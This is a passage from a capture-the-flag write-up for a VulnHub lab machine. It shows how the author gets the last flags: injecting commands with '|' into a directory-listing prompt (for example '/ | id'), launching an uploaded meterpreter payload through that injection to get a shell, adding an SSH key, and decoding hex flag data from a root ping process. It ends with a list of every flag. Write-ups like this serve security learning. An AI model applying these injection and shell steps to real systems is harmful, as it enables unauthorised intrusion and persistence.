 So maybe we can inject some commands here? After trying out various ways I noticed it is possible to execute commands with the `|` character:
```
Enter dir to list: / | id
uid=1000(vulnhub) gid=1000(vulnhub) groups=1000(vulnhub)
```

Let's start the previously uploaded `meterpreter` again and watch a new connection coming in as the user `vulnhub`:
```
Enter dir to list: / | /tmp/meterpreter
```

Now we can get the next flag:
```
cat flag3
flag3{n3x7_71m3_54n17153_y0ur_1npu7}
```

We can again add our SSH key to the user to get a better way to look at the machine.

# flag0
After examining the output of `ps faux` there is a `ping` command running as `root`:
```
root      1046  0.0  0.1  17976  1480 ?        S    20:08   0:00 /bin/bash /root/ping.sh 2
root      5463  0.0  0.0   6500   632 ?        S    21:44   0:00  \_ ping -c 1 -b 192.168.56.255 -p 725f796f755f6265636f6d655f746865 2
```

Decoding the data as hex reveals
```
>>> "725f796f755f6265636f6d655f746865".decode("hex")
'r_you_become_the'
```

So this looks like the part of our flag. After looking at the process list again we can see the data portion of the ping command changes regularly.

After extracting all values manually we can decode the last flag:
```
666c6167307b7468655f717569657465
725f796f755f6265636f6d655f746865
5f6d6f72655f796f755f6172655f6162
6c655f746f5f686561727d

>>> "666c6167307b7468655f717569657465725f796f755f6265636f6d655f7468655f6d6f72655f796f755f6172655f61626c655f746f5f686561727d".decode("hex")
'flag0{the_quieter_you_become_the_more_you_are_able_to_hear}'
```

# flags

The flags:
```
flag0{the_quieter_you_become_the_more_you_are_able_to_hear}
flag1{l0l_h0w_345y_15_7h15_c7f}
flag2{y0u'r3_4_5upyb07_n00b_m8}
flag3{n3x7_71m3_54n17153_y0ur_1npu7}
```
